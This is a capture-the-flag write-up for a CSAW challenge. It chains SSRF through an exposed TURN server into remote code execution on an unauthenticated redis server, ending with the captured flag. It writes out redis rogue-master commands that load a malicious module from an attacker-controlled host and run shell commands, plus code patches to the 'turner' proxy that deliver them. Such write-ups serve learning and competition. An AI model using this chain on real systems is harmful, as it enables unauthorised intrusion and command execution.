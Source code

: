 ### 0x00 Challenge

supervisord.conf:

```
[supervisord]
nodaemon=true

[program:gunicorn3]
command=gunicorn3 --workers=10 -b 0.0.0.0:5000 app:app
autorestart=true
user=www

[program:coturn]
command=turnserver
autorestart=true
user=www

[program:redis]
command=timeout 60s redis-server --bind 0.0.0.0
autorestart=true
user=www
```

Dockerfile:

```
FROM ubuntu:18.04

RUN adduser --disabled-password --gecos '' www

RUN apt-get update && apt-get install -y coturn redis python3 python3-pip gunicorn3 supervisor

WORKDIR app
COPY requirements.txt .
RUN pip3 install -r requirements.txt

COPY flag.txt /
RUN chmod 444 /flag.txt

COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf
RUN echo 'min-port=49000' >> /etc/turnserver.conf
RUN echo 'max-port=49100' >> /etc/turnserver.conf

COPY app.py .
COPY static static

EXPOSE 3478
EXPOSE 5000

CMD ["supervisord"]
```

app.py is indeed just a red herring so I am not gonna put it here.

### 0x01 Thoughts

Obviously, following line in supervisord config file is suspicious:

```
command=timeout 60s redis-server --bind 0.0.0.0
```

Every security guy should know *never bind redis server to 0.0.0.0*. Additionally, no password is set for this redis server, which implies this challenge is likely related to SSRF. 

And by some chance, I do recall that TURN server could lead to some internal network magics. So, I started to do Googling and found https://hackerone.com/reports/333419. Unfortunately, the report's author is so bad that only a pcap file of pwning TURN server is provided. I have replayed these TCP packets and tried different clients, but none worked. Indeed, I spent ~8 hours on patching https://github.com/pion/turn/ and finally gave up. 

Nonetheless,

**After attempting other challenges, I discovered the pattern of this whole CTF**: 

![](https://quicklatex.com/cache3/41/ql_341fbdcdf4001306778c33431e74a941_l3.png)

### 0x02: SSRF

https://github.com/staaldraad/turner finally works for being an HTTP proxy based on TURN server. However, we somehow need to send TCP packets so as to interact with redis server. 

So, being lazy enough, I applied the following change to L106 for `main.go` to send TCP messages to redis server.

```
-   methodLine := fmt.Sprintf("%s %s %s\r\n", r.Method, r.URL.Path, r.Proto)
+   methodLine := fmt.Sprintf("INFO\r\n")
```

And added the following line after L158 to print the response:

```
+   fmt.Println(string(buf[:n]))
```

Then, run this script in terminal (`go build && ./turner -server web.chal.csaw.io:3478`) and set the browser proxy to `127.0.0.1:8080`. By visiting `0.0.0.0:6379`, you can find the information of redis server on the terminal. 

### 0x03: RCE

Since the version of redis server in the docker container is 4.x, we can apply this script: https://github.com/n0b0dyCN/redis-rogue-server

However, since I was too lazy to convert the former HTTP proxy to a socks proxy, I directly dumped the commands sent to the redis server by this RCE script:

```
SLAVEOF [YOUR_ROGUE_SERVER_ADDR] 21000
CONFIG SET dbfilename exp.so
MODULE LOAD ./exp.so
system.exec 'cat /flag.txt'
```

And patched the RCE script at L218 to make it only as a fake master server (rogue server):

```
-   try:
-      runserver(options.rh, options.rp, options.lh, options.lp)
-   except Exception as e:
-      error(repr(e))
+   rogue = RogueServer(options.lh, options.lp)
+   rogue.exp()
```

Then, I again applied the change to L106 for `main.go` in turner:

```
-   methodLine := fmt.Sprintf("INFO\r\n")
+   methodLine := fmt.Sprintf("SLAVEOF [YOUR_ROGUE_SERVER_ADDR] 21000\r\nCONFIG SET dbfilename exp.so\r\nMODULE LOAD ./exp.so\r\nsystem.exec 'cat /flag.txt'\r\n")
```

Finally, run this script again in terminal (`go build && ./turner -server web.chal.csaw.io:3478`) and set the browser proxy to `127.0.0.1:8080`. By visiting `0.0.0.0:6379` and in the meantime constantly restarting rogue server, you can find the flag on the terminal. 

`flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}`
